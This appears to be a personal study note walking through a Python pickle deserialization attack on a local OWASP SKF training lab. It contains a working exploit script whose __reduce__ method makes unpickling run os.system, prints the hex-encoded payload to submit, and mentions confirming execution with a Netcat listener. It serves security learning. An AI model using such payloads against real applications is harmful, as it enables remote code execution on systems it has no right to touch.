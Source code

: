 ```yaml
---
tags:
  - vulnerabilty
  - "#deserializationpickle"
  - python
---
```

# What is Pickle?

Is a module for serializing (pickling) and deserializing (unpickling) Python objects

---

# Exploiting

Open the browser localhost:5000

![](../../Images/Pasted%20image%2020230906202717.png)

The data that we put in the form is keeping in a variable named **att**

The problem is that there isn't any type of sanitization, you can see the code in **/python/DES-Pickle/DES-Pickle.py**

![](../../Images/Pasted%20image%2020230906203747.png)

In Pickle there are a function that is named `___reduce__` that you can indicate how do you like to deserialize or what action to do

Normally to do this attack you have to create a file, in this case we are going to named his **exploitation.py**

````python
#!/usr/bin/python3

import pickle
import os
import binascii

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id',))

if __name__ == '__main__':
    print(pickle.dumps(Exploit()))

````

`binascii` --> We are going to use this library to represent the string in hexadecimal

`__reduce__` --> Special method to personality how deserialized an object 

`'id',` --> This is for represent a tupla (similar that a list) with only one element and not a string

`pickle.dumps()` --> To show in console the serialized data

If you execute the program you are going to see a lot of bytes, but this have to be in hexadecimal:

![](../../Images/Pasted%20image%2020230906205807.png)

Remember we know that is in hexadecimal because we see in the source code

To represent in hexadecimal you can use the library **binascii**

````python
#!/usr/bin/python3

import pickle
import os
import binascii

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id',))

if __name__ == '__main__':
    print(binascii.hexlify(pickle.dumps(Exploit())))

````

![](../../Images/Pasted%20image%2020230906205952.png)

The string is between single quotes

````bash
8004951d000000000000008c05706f736978948c0673797374656d9493948c02696494859452942e
````

Now you can introduce this in the website

![](../../Images/Pasted%20image%2020230906210103.png)

But what happen?

This code has been executed but don't show the output (normally is the status code)

To verify if the command is well executing we can listen in port 443 (with [Netcat](../../Tools/Netcat.md))



---

# Labs

> sudo docker pull blabla1337/owasp-skf-lab:des-pickle

> sudo docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle